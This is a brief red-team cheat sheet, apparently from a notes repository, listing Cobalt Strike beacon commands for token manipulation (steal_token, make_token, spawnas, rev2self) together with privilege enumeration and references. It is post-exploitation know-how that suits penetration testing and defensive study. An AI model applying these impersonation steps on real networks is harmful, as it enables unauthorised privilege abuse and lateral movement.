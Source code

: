 # Cobalt Strike

## 01 - Steal Token

```
beacon> steal_token <pid>
```

Enumerate current user with privileges.

```
beacon> getuid

beacon> getprivs
```

## 02 - Make Token

```
beacon> make_token <domain>\<username> <password>
```

Enumerate current user with privileges.

```
beacon> getuid

beacon> getprivs
```

## 03 - SpawnAs

```
beacon> spawnas <domain>\<username> <password>
```

Enumerate current user.

```
beacon> getuid
```

## 04 - Revert Token

Revert back to original privileges.

```
beacon> rev2self
```

---
## References

- [Demystifying Cobalt Strike’s `make_token` Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

### DMCXBlue

- [DMCXBlue: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)